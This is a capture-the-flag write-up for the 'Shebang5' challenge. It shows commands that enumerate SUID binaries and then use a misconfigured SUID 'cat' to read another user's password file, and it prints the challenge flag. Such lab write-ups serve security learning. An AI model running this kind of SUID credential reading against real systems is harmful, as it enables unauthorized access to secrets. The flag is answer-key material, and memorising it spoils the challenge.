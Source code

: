 #### Original Writeup - [https://github.com/CTSecUK/CyberYoddha-
CTF-2020/blob/main/Write-
ups/Shebang5.md](https://github.com/CTSecUK/CyberYoddha-
CTF-2020/blob/main/Write-ups/Shebang5.md)  
  
-----

# Shebang5

![Category](http://img.shields.io/badge/Category-Shebang-orange?style=for-the-
badge) ![Points](http://img.shields.io/badge/Points-250-brightgreen?style=for-
the-badge)

We connect to the shell using this command `ssh -p 1337 [email protected]` and
the flag from the Shebang4 challenge as the password.

There is a clue for this chelleneg in the description which reads;

> "there is a very bad file on this Server. can yoU fInD it."

Notice the capitalisation of `U` `I` & `D` in the above clue;

That makes me think we're looking for a SUID binary.

```  
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o
-perm /4000  
/var/tmp/hi/bash  
find: '/var/cache/ldconfig': Permission denied  
find: '/var/cache/apt/archives/partial': Permission denied  
find: '/var/cache/private': Permission denied  
find: '/var/log/private': Permission denied  
find: '/var/lib/apt/lists/partial': Permission denied  
find: '/var/lib/private': Permission denied  
/var/cat  
find: '/etc/ssl/private': Permission denied  
find: '/run/lock': Permission denied  
find: '/run/sudo': Permission denied  
/proc  
find: '/home/shebang4': Permission denied  
find: '/home/shebang3': Permission denied  
find: '/home/shebang2': Permission denied  
find: '/home/shebang1': Permission denied  
find: '/home/shebang0': Permission denied  
/sys  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/bin/umount  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/newgrp  
/usr/bin/sudo  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
find: '/root': Permission denied  
```

`/var/cat` looks inteersting?.!

```  
shebang5@fe2149a30ae1:~$ ls -al /var/cat  
---s--x--x 1 shebang6 root 16992 Oct 14 20:51 /var/cat  
```

OK, so "**shebang6**" is the owner of this file... and it has the SUID bit set
on it!

Now lets see if there are any files owened by 'shebang6';

```  
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o
-user shebang6  
find: '/var/cache/ldconfig': Permission denied  
find: '/var/cache/apt/archives/partial': Permission denied  
find: '/var/cache/private': Permission denied  
find: '/var/log/private': Permission denied  
find: '/var/lib/apt/lists/partial': Permission denied  
find: '/var/lib/private': Permission denied  
/var/cat  
/etc/passwords/shebang6  
find: '/etc/ssl/private': Permission denied  
find: '/run/lock': Permission denied  
find: '/run/sudo': Permission denied  
/proc  
find: '/home/shebang4': Permission denied  
find: '/home/shebang3': Permission denied  
find: '/home/shebang2': Permission denied  
find: '/home/shebang1': Permission denied  
find: '/home/shebang0': Permission denied  
/sys  
find: '/root': Permission denied  
```

We can see from the above output the file `/etc/passwords/shebang6`. That's
got to be something?!

running the /var/cat binary against the file we get the following;

```  
shebang5@fe2149a30ae1:~$ /var/cat /etc/passwords/shebang6  
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}  
```

And there's the flag;

## `CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}`

Original writeup (https://github.com/CTSecUK).